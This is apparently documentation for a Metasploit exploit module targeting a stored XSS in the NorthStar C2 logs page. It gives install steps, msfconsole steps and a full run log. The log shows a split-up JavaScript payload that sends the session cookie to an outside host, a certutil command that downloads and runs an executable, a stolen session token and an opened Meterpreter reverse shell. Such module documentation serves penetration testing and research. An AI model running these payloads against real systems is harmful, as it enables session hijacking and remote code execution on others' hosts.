

## Vulnerable Application

NorthStar C2, prior to commit `7674a44` on March 11 2024, contains a vulnerability where the logs page is
vulnerable to a stored XSS.
An unauthenticated user can simulate an agent registration to cause the XSS and take over a user's session.
With this access, it is then possible to run a new payload on all of the NorthStar C2 compromised hosts
(agents), and kill the original agent.

Successfully tested against NorthStar C2 commit `e7fdce148b6a81516e8aa5e5e037acd082611f73` running on
Ubuntu 22.04. The agent was running on Windows 10 19045.



### Install NorthStar C2

Instructions for Ubuntu 22.04. Official documentation and manual installation steps can be found [here](https://github.com/EnginDemirbilek/NorthStarC2/wiki/Installation).

```
sudo apt-get update
sudo apt-get install -y software-properties-common git wget mysql-server
sudo add-apt-repository ppa:ondrej/php
sudo apt-get update
sudo service mysql start
git clone https://github.com/EnginDemirbilek/NorthStarC2.git
cd NorthStarC2
git checkout e7fdce148b6a81516e8aa5e5e037acd082611f73
chmod +x install.sh
sudo ./install.sh # mysql answers: root:<empty>, make sure to give a website username/password
sudo apt-get purge -y php
sudo apt autoremove -y
sudo apt-get install -y php7.2 libapache2-mod-php7.2 php7.2-mysql
sudo a2dismod php*
sudo a2enmod php7.2
sudo service apache2 restart
```

### Agent Install

This should be done on a Windows computer:

On the c2 payload, you'll want to edit `Program.cs` on line 13 and edit `mainUri` to your northstar IP.
Now run the program, or compile and run it, and ensure the agent is active on the NorthStar C2 website.

## Verification Steps

1. Install the application, and connect an agent
1. Start msfconsole
1. Do: `use exploit/windows/http/northstar_c2_xss_to_agent_rce`
1. Do: `set rhosts [ip]`
1. Do: `set srvhost [srvhost]`
1. Do: `set fetch_srvport [fetch_srvport]`
1. Do: `set fetch_srvhost [fetch_srvhost]`
1. Do: `run`
1. Do: visit the NorthStarC2 site with a logged in user, and browse to the Server Logs page.
1. You should get a shell on each agent.

## Options

### KILL

If the NorthStarC2 agent should be explicitly killed on each compromised host. Defaults to `false`

## Scenarios

### NorthStar C2 commit e7fdce148b6a81516e8aa5e5e037acd082611f73 on Ubuntu 22.04 with an agent on Windows 10

```
resource (northstar.rq)> use exploit/windows/http/northstar_c2_xss_to_agent_rce
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
resource (northstar.rq)> set rhosts 4.4.4.4
rhosts => 4.4.4.4
resource (northstar.rq)> set srvhost 3.3.3.3
srvhost => 3.3.3.3
resource (northstar.rq)> set verbose true
verbose => true
resource (northstar.rq)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (northstar.rq)> set FETCH_srvhost 3.3.3.3
FETCH_srvhost => 3.3.3.3
msf6 exploit(windows/http/northstar_c2_xss_to_agent_rce) > exploit
[*] Command to run on remote host: certutil -urlcache -f http://3.3.3.3:9090/p3icRkNmQwbsIs7RYzV5sA %TEMP%\tKvCAnUBZgfn.exe & start /B %TEMP%\tKvCAnUBZgfn.exe
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/northstar_c2_xss_to_agent_rce) >
[*] Fetch handler listening on 3.3.3.3:9090
[*] HTTP server started
[*] Adding resource /p3icRkNmQwbsIs7RYzV5sA
[*] Started reverse TCP handler on 3.3.3.3:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. NorthStar Login page detected
[*] Sending XSS
[*] Sending: N*/</script><q
[*] Sending: N*/i.src=u/*q
[*] Sending: N*/new Image;/*q
[*] Sending: N*/var i=/*q
[*] Sending: N*/s+h+p+'/'+c;/*q
[*] Sending: N*/var u=/*q
[*] Sending: N*/'http://';/*q
[*] Sending: N*/var s=/*q
[*] Sending: N*/':8080';/*q
[*] Sending: N*/var p=/*q
[*] Sending: N*/a+b;/*q
[*] Sending: N*/var h=/*q
[*] Sending: N*/'.10.147';/*q
[*] Sending: N*/var b=/*q
[*] Sending: N*/'192.168';/*q
[*] Sending: N*/var a=/*q
[*] Sending: N*/d.cookie;/*q
[*] Sending: N*/var c=/*q
[*] Sending: N*/document;/*q
[*] Sending: N*/var d=/*q
[*] Sending: N</td><script>/*q
[*] Waiting on XSS execution
[*] Using URL: http://3.3.3.3:8080/
[*] Server started.
```

Now visit the site with a logged in user, and browse to the Server Logs page.

```
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce - Received GET request.
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - Received cookie: st0sfhqto9mqtpd81rlg6hq5g5
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - Live Agents
===========
 ID                   IP              OS                      Username                Hostname         Status
 --                   --              --                      --------                --------         ------
 NC1S7X834eJVcJtynrq  222.222.22.222  Windows 10 Enterprise   DESKTOP-Q0HUOEI\h00die  DESKTOP-Q0HUOEI  Online
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - CSRF Token: 38b4d324e8cd233b7a94c62e7b3c5556
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce - (NC1S7X834eJVcJtynrq) Stealing DESKTOP-Q0HUOEI
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce -   (NC1S7X834eJVcJtynrq) Enabling shell mode
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce -     Command sent successfully to agent NC1S7X834eJVcJtynrq, response: Cmd mode enabled, all commands will be redirect to CMD. Response delay is : 2000 miliseconds
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce -   (NC1S7X834eJVcJtynrq) Running payload
[*] Client 222.222.22.222 requested /p3icRkNmQwbsIs7RYzV5sA
[*] Sending payload to 222.222.22.222 (Microsoft-CryptoAPI/10.0)
[*] Client 222.222.22.222 requested /p3icRkNmQwbsIs7RYzV5sA
[*] Sending payload to 222.222.22.222 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 222.222.22.222
[*] Meterpreter session 1 opened (3.3.3.3:4444 -> 222.222.22.222:50116) at 2024-04-10 14:40:31 +0000
msf6 exploit(windows/http/northstar_c2_xss_to_agent_rce) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > sysinfo
Computer        : DESKTOP-Q0HUOEI
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/window
```
